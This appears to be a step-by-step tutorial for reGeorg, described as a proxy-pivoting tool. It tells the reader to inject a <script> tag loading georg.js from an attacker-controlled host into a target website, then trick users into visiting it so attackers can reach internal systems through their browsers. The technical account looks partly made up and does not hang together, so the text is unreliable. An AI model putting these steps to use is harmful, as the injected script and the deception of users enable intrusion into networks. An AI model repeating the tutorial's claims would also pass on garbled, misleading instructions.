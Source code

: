 # reGeorg - A web socks proxy tool

reGeorg is a powerful tool that facilitates proxy pivoting, enabling an ethical hacker to establish a connection from a compromised user's browser to the attacker's machine. This connection serves as a channel to bypass network restrictions and gain access to internal resources. It leverages techniques such as tunneling HTTP traffic over a WebSocket connection to achieve its objectives.

Below is a step by step tutorial on how to use the tool:
## Step 1: Set up your environment

Ensure you have a target system or network that you have permission to test.
Prepare a machine for launching the attack and installing reGeorg. This machine will act as your attacker machine.

## Step 2: Download and install reGeorg

Visit the GitHub repository of reGeorg (https://github.com/sensepost/reGeorg) and download the latest version of the tool.
Extract the downloaded file to a directory on your attacker machine.

## Step 3: Configure your attacker machine

Make sure your attacker machine has the necessary dependencies installed, such as Python and PHP.
Set up a web server on your attacker machine. For example, you can use Apache or Nginx.
Move the reGeorg script to the web server's document root.

## Step 4: Launch the reGeorg server

Open a terminal or command prompt on your attacker machine.
Navigate to the directory where you extracted reGeorg.
Start the reGeorg server by running the following command:

```
python reGeorgSocksProxy.py -p <port_number>
```
Replace <port_number> with the port on which you want the server to listen. The default port is 8080.

## Step 5: Prepare the payload

Identify the target website or application you want to attack.
Modify the source code of the target website or application to include a reference to the reGeorg script. For example, you can add the following line of code within a <script> tag:

```
<script src="http://<attacker_ip>:<port_number>/georg.js"></script>
```

Replace <attacker_ip> with the IP address of your attacker machine and <port_number> with the port number you specified in the previous step.

## Step 6: Trigger the payload

Host the modified target website or application on a server or test environment.
Trick the target user or perform a penetration test by getting the user to visit the modified target website or application.
When the user's browser loads the website or application, the reGeorg script will be fetched and executed, establishing a connection to your reGeorg server.

## Step 7: Exploit the pivoting capabilities

Once the user's browser establishes a connection with your reGeorg server, you can use it to perform various network pivoting activities.
For example, you can use tools like proxychains or socksify to route traffic through the reGeorg proxy, gaining access to internal systems or resources.

**Remember to exercise caution and always follow legal and ethical guidelines when using such tools.**

